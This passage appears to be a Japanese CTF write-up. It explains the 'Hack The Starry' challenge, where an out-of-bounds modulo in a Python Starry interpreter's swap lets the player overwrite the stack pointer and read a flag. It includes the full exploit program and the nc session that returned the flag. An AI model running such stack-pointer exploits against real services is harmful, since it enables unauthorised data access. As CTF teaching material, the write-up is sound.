 ```
FACT = FACT.replace("MINUS", "(" + MINUS + ")")
FACT = FACT.replace("PRED", "(" + PRED + ")")
FACT = FACT.replace("NEXT", "(" + NEXT + ")")
FACT = FACT.replace("SND", "(" + SND + ")")
FACT = FACT.replace("FST", "(" + FST + ")")
FACT = FACT.replace("MKPAIR", "(" + MKPAIR+ ")")
FACT = FACT.replace("ISZERO", "(" + ISZERO+ ")")
FACT = FACT.replace("MUL", "(" + MUL + ")")
FACT = FACT.replace("ZERO", "(" + ZERO+ ")")
FACT = FACT.replace("SUCC", "(" + SUCC + ")")
FACT = FACT.replace("TRUE", "(" + TRUE + ")")
FACT = FACT.replace("FALSE", "(" + FALSE + ")")
q4 = FACT
print('\n'.join([q1,q2,q3,q4]))
```


## Hack The Starry

Pwn的なタグをつけたが、Pwn要素はあまりない。
Starryのオンライン言語処理系のようなPython実装がサーバーで動いている。この時、stackの一番下から一つ上のあたりにフラグが置いてある。　

![イメージ](https://lh3.googleusercontent.com/-GHhAY8pSsRU/WVW22pXanbI/AAAAAAAANFs/oWQuHavyciIo-eTjTn_zF6ZxYrvMDkFAwCLcBGAs/s0/%25E3%2582%25B9%25E3%2582%25AF%25E3%2583%25AA%25E3%2583%25BC%25E3%2583%25B3%25E3%2582%25B7%25E3%2583%25A7%25E3%2583%2583%25E3%2583%2588+2017-06-30+11.23.11.png
"スクリーンショット 2017-06-30 11.23.11.png")

普通にpushをしてしまうと当然フラグは見えなくなってしまうが、どうしよう、という問題。

この問題、バックエンドで動いているプログラムがPythonで、ソース公開してしまうか迷ったが、まぁ2時間半しかないしな、という気持ちで公開した。

このプログラムを見ると、swap/rotateを行う実装が明らかにやばいことがわかる

```
def swap():
    esp = stack[0]
    stack[esp], stack[(esp + 1) % len(stack)] =\
    stack[(esp + 1) % len(stack)],  stack[esp]

def rotate():
    esp = stack[0]
    stack[esp], stack[(esp + 1) % len(stack)], stack[(esp + 2) % len(stack)] =\
    stack[(esp + 1) % len(stack)],  stack[(esp + 2) % len(stack)], stack[esp]
```

espが一番下のとき（N-1とすると）、swapをすると、0番地とN-1番地のスワップが発生し、結果として、espとして使っているstackの一番上の値を書き換えることが可能になる。これがわかればあとは頑張ってespをフラグの文字列が始まるところへ合わせればよく、想定解は次のようなStarryのプログラムを送り込むこと。

```
  +    +    +    +    +
            + +  *               +  *         + +  *         +* * + + +  + . . .
                 . . . . . . . . . . . . . . . .
```

```
-% nc moratorium08.tech 1337
*** Starry Sky Machine ***
Please paste your beautiful code!

  +    +    +    +    +
            + +  *               +  *         + +  *         +* * + + +  + . . .
                 . . . . . . . . . . . . . . . .
---------------STDOUT---------------
TSG{St4rRYsKY}
------------STDOUT[END]-------------

Good Bye
```
